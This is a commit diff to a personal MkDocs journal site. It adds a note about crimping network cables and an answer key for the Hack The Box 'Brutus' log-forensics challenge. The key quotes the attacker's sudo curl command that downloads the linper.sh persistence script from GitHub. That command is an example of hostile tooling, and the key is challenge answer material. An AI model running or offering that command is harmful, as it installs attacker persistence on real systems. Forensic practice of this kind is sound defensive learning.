

Before and after one commit to odonnellrory/odonnellrory.github.io, an MkDocs documentation site: the page built from docs/00-journal/2025-09-08.md, in a window 1280 px wide. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed lines change nothing that is shown.

Commit message:
crimping

```diff
--- a/docs/00-journal/2025-09-08.md
+++ b/docs/00-journal/2025-09-08.md
@@ -1,4 +1,4 @@
-# 08/09/25 -
+# 08/09/25 - Crimping
 
 My crimping tool arrived yesterday so I cut down my 100m cat6 cable and nowhave many cat6 patch cables.
 Excellent.
@@ -8,3 +8,8 @@ Excellent.
 Went to backup the Ubuntu laptop to find that Ubuntu has a backup software packaged in.  That's nice, but the laptop is moving over to NixOS.
 
 ---
+
+Made a new section for hack the box.  I was going to put it into knowledge base, but if I keep it up then it will get too big for KB's and should be it's own section.
+Camino dir is now 03-camino instead of 02-aboutme.  02-aboutme has been replaced with 02-hack-the-box.
+
+---
--- a/docs/02-hack-the-box/brutus.md
+++ b/docs/02-hack-the-box/brutus.md
@@ -1,5 +1,34 @@
-# Brutus
+# [Brutus](https://app.hackthebox.com/sherlocks/Brutus)
 
+---
+
+??? info "Answers"
+
+    ??? note "Analyze the auth.log. What is the IP address used by the attacker to carry out a brute force attack?"
+        65.2.161.68
+
+    ??? note "The bruteforce attempts were successful and attacker gained access to an account on the server. What is the username of the account?"
+        root
+
+    ??? note "Identify the UTC timestamp when the attacker logged in manually to the server and established a terminal session to carry out their objectives. The login time will be different than the authentication time, and can be found in the wtmp artifact."
+        2024-03-06 06:32:45
+
+    ??? note "SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?"
+        37
+
+    ??? note "The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?"
+        cyberjunkie
+
+    ??? note "What is the MITRE ATT&CK sub-technique ID used for persistence by creating a new account?"
+        T1136.001
+
+    ??? note "What time did the attacker's first SSH session end according to auth.log?"
+        2024-03-06 06:37:24
+
+    ??? note "The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?"
+        /usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
+
+---
 
 the zip files gives you 3 files, and auth.log, wtmp, and a python script for parsing the wtmp file.
 
```
Also changed, not shown: docs/.pages.
